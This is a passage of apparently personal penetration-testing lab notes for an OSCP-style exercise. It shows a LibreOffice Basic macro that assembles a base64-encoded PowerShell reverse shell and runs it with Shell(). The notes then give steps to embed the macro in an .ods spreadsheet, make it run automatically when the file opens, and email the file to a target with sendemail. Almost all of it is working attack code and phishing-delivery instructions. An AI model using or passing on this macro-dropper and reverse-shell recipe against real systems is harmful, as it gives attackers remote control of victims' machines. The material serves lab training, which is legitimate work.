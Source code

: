 ```VBA
    Str = Str + "gAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAA"
    Str = Str + "oACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoA"
    Str = Str + "CQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEw"
    Str = Str + "AZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAY"
    Str = Str + "QB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQB"
    Str = Str + "UAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4A"
    Str = Str + "HQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGU"
    Str = Str + "AdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJ"
    Str = Str + "ABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB"
    Str = Str + "4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtA"
    Str = Str + "FMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADI"
    Str = Str + "AIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAI"
    Str = Str + "AAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA"
    Str = Str + "+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0A"
    Str = Str + "GUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEk"
    Str = Str + "ASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAY"
    Str = Str + "QBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQA"
    Str = Str + "oACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiA"
    Str = Str + "HkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0"
    Str = Str + "ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQ"
    Str = Str + "wBsAG8AcwBlACgAKQA="

    Shell(Str)
End Sub
```

Create that macro in `Tools -> Macros -> Edit Macros`

Then follow the steps outlined here to attach your macro to LibreOffice file:
https://routezero.security/2024/11/09/proving-grounds-practice-hepet-walkthrough/

#### Steps
1) Create payload as described above
2) Embed the macro **in the file**
3) Create trigger for macro on document open
4) Save document
5) Send email (`swaks` or `sendemail`)
#### Embed the Macro in the file
For payload delivery (e.g. OSCP-style .ods phishing attack), the macro must be embedded in the spreadsheet file, not just your global LibreOffice macro library.

1) Open your `.ods` file in LibreOffice
2) Go to Tools → Macros → Organize Macros → LibreOffice Basic
3) Select your `.ods` file in the left-hand panel
4) Click **New**, name the module (e.g., Module1)
5) In the module that opens, paste your Sub MyMacro() code
6) Save
#### Macro Event Trigger

1) To ensure the macro runs automatically when the document is opened, we need to assign it to the `Open Document` or `Document Load` events. In LibreOffice, navigate to Tools -> Customize, 
2) Select the `Events` tab, and 
3) Assign the Exploit macro (note: the same one created in [[War Plan Black (Initial Foothold)#Embed the Macro in the file]]) to the Open Document event.
4) Save the document to disk
5) Send the document with Swaks [[War Plan Black (Initial Foothold)#Prepare Windows Library and Shortcut Files]]
	1) Alternative to Swaks, can try `sendemail` below:
```bash
sendemail -f 'jonas@localhost' -t 'mailadmin@localhost' -s '192.168.217.140:25' -u 'Your spreadsheet' -m 'here is your requested spreadsheet' -a attack.ods
```
